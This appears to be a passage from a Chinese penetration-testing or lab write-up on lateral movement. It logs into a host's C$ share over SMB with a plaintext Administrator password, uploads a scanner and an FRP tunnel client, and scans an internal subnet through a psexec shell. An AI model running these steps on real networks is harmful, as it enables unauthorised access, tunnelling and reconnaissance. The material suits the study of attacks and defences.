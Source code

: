 在该目录下打开命令行，执行命令：

```
smbclient.exe Administrator:good123@@192.168.2.200

use c$

put C:\Users\Administrator\Desktop\s.exe

put C:\Users\Administrator\Desktop\frpc.exe

put C:\Users\Administrator\Desktop\frpc.ini
```

![image-20220616134220494370-1655884156759239.png](img/Untitled.assets/879f6eeecde7f06d4ec6a79655cbb987.png)

`psexec.exe`运行的命令行中执行命令进行探测：

```
c:\s.exe tcp 192.168.3.0/24 135,445,3389,22,80,3306,8080 >> hosts.txt
```

![image-20220616134939882472-1655884158436698.png](img/Untitled.assets/808c9918cf7a923d1804b96ed715a6c0.png)
